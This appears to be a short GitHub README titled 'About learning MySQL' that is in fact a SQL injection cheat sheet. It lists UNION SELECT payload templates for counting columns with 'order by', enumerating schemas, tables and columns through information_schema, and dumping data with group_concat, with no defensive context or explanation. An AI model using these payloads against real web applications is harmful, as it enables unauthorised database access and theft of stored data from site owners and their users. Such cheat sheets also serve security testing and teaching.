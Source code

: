 <div style="background-color:balck;color:green">
<h1>About learning MySQL</h1>
</div>


```

id=? order by n
union select null,null,~,n

#find_schema:
union select 1,2,~,group_concat(schema_name),~,n from information_schema.schemata
#find_tables:
union select 1,2,~,group_concat(table_name),~,n from information_schema.tables where table_schema="~~"
#find_columns:
union select 1,2,~,group_concat(column_name),~,n from information_schema.columns where table_schema="~~" and table_name="~~"

#get data
union select 1,2,~,group_concat(column),~,n from schema.table

```

